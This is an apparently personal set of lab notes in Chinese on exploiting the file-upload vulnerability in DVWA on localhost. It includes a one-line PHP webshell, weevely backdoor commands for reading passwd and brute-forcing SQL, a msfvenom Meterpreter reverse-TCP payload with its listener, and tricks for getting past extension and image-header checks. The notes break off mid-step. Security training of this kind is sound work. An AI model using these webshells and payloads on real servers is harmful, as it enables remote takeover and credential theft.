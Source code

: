 # File Upload 
文件上傳漏洞
如果對上傳檔案的類型、內容沒有進行嚴格過濾，會使攻擊者通過上傳WEBSHELL取得伺服器權限
因此檔案上傳漏洞的危害非常嚴重

## Low 
未經任何過濾、檢查
![alt text](image.png)

直接手打一個php來上傳，呼叫cmd指令
```php
    <?php  system($_REQUEST["cmd"]); ?>
```
上傳成功後，前端回饋路徑名稱
../../hackable/uploads/test.php succesfully uploaded!
你只需要造訪這個路徑名稱，後面加上cmd指令即可取得伺服器資訊
```
    http://127.0.0.1/dvwa/hackable/uploads/test.php?cmd=ls
```
![alt text](image-1.png)


## 額外

### 滲透測試工具－Weevely 

Weevely是一個開源的Python工具，用於進行網站的測試和測試安全性。它主要用於進行網站漏洞測試和測試，可以用於網站測試的各個階段，包括鑒定、發現、測試和應對潛在的安全問題。

kali 本身有內建

* generate 生成後門
```
    weevely generate test123 weevely.php 
```
![alt text](image-3.png)

你就可以把建立好的php上傳到上面中，並訪問
進行後門連接

```
   weevely http://127.0.0.1/dvwa/hackable/uploads/weevely.php test123
```

![alt text](image-4.png)

就可以使用後門程式如
:fild_download 下載遠端的程式或是圖片
查看系統訊息
```
    uname -a # 查看系統訊息
    net_ifconfig # 查看IP
    audit_etcpasswd -h # 查看password 
    audit_etcpasswd -real # 查看password  ，並獲得真實用戶訊息
    bruteforce_sql -h  #暴力破解
    sql_console -u #　連接數據庫
```

### 滲透測試工具 Msfvenom 
生成自帶backdoor 的軟體

列出php 相關所有指令
```
    msfvenom -l  payloads | grep php 
```
使用php/meterpreter/reverse_tcp 生成php程式，並上傳

```
    msfvenom -p php/meterpreter/reverse_tcp tcp lhost=127.0.0.1 lport=4444 -f raw > exploit.php
```

啟動msfconsole，use exploit/multi/handler 


```
    msfconsole 
    use exploit/multi/handler
    set payload php/meterpreter/reverse_tcp
    set lhost 127.0.0.1
    run

```
重新訪問到該url 
../../hackable/uploads/exploit.php

就會發現介面發生了變化
![alt text](image-5.png)

```
    sysinfo # 取得系統資訊
```

## Medium 

後端追加檢查了檔案類型
透過副檔名操作，Burpsuite 攔截來使php檔案可以上傳
將原本的test.php 附檔名改成png 
上傳後再burpsuite 改成php，即可繞過判定

## HIGH
除了檢查type外，後端使用了getimagesize(string filename)，會讀取圖片header、圖片長寬的資訊
格式不對就報錯

因此我們預先準備一張jpg圖片及php檔案，將圖片合併起來生成webshell.jpg 
上傳成功後就可以使用菜刀、蟻劍來操作webshell 

方法二：更改file 前面格式

先到
https://en.wikipedia.org/wiki/List_of_file_signatures
看圖片格式

![alt text](image-6.png)

使用hexeditor 更改test.php格式(先在前面按8個空白鍵)
cp  改成jpg格式，上傳用burpsuite 攔截
filename變成如下：
開啟msfconfig 




